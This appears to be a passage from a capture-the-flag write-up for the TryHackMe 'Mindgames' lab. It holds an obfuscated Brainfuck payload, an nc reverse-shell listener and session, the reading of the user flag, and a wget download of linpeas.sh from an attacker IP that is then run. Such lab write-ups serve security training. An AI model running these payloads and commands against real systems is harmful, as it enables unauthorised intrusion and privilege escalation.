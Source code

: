 ```bash
<+++[ ->+++ <]>++ +++.. <++++ ++++[ ->--- ----- <]>-- ---.< +++++ ++[->
+++++ ++<]> ++++. --.<+ ++[-> +++<] >++.. <++++ ++++[ ->--- ----- <]>--
--.<+ +++++ +[->+ +++++ +<]>+ +.<++ +++++ [->-- ----- <]>-- ----- -.<++
+[->+ ++<]> ++++. <++++ +++[- >++++ +++<] >++.+ +++++ +.+++ ++.<+ +++++
+[->- ----- -<]>- ----- ----- ---.< +++++ ++[-> +++++ ++<]> ++.-. <++++
[->++ ++<]> ++.<+ ++[-> ---<] >--.< +++++ +++[- >---- ----< ]>--- ---.<
+++[- >+++< ]>+.< +++[- >---< ]>-.< +++[- >+++< ]>++. <++++ +++[- >++++
+++<] >++++ +++++ ++.<+ +++++ ++[-> ----- ---<] >---- ---.< +++++ ++[->
+++++ ++<]> +++++ +++++ .<+++ ++++[ ->--- ----< ]>--- .<+++ +[->+ +++<]
>++.< +++++ [->-- ---<] >.+++ ++++. <
```


```bash
:~/Mindgames# nc -nlvp 4444
...mindgames@mindgames:~/webserver$ id
id
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
mindgames@mindgames:~/webserver$ cd /home/mindgames
cd /home/mindgames
mindgames@mindgames:~$ ls -la
ls -la
total 40
drwxr-xr-x 6 mindgames mindgames 4096 May 11  2020 .
drwxr-xr-x 4 root      root      4096 May 11  2020 ..
lrwxrwxrwx 1 mindgames mindgames    9 May 11  2020 .bash_history -> /dev/null
-rw-r--r-- 1 mindgames mindgames  220 May 11  2020 .bash_logout
-rw-r--r-- 1 mindgames mindgames 3771 May 11  2020 .bashrc
drwx------ 2 mindgames mindgames 4096 May 11  2020 .cache
drwx------ 3 mindgames mindgames 4096 May 11  2020 .gnupg
drwxrwxr-x 3 mindgames mindgames 4096 May 11  2020 .local
-rw-r--r-- 1 mindgames mindgames  807 May 11  2020 .profile
-rw-rw-r-- 1 mindgames mindgames   38 May 11  2020 user.txt
drwxrwxr-x 3 mindgames mindgames 4096 May 11  2020 webserver
mindgames@mindgames:~$ cat user.txt
cat user.txt
thm{411f7d38247ff441ce4e134b459b6268}
```

```bash
mindgames@mindgames:~$ cd webserver
cd webserver
mindgames@mindgames:~/webserver$ ls -la
ls -la
total 7032
drwxrwxr-x 3 mindgames mindgames    4096 May 11  2020 .
drwxr-xr-x 6 mindgames mindgames    4096 May 11  2020 ..
drwxrwxr-x 2 mindgames mindgames    4096 May 11  2020 resources
-rwxrwxr-x 1 mindgames mindgames 7188315 May 11  2020 server
mindgames@mindgames:~/webserver$ file server 
file server
server: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, not stripped
mindgames@mindgames:/dev/shm$ wget http://10.10.222.80:8000/linpeas.sh
wget http://10.10.222.80:8000/linpeas.sh
...
mindgames@mindgames:/dev/shm$ chmod +x linpeas.sh
mindgames@mindgames:/dev/shm$ ./linpeas.sh
```
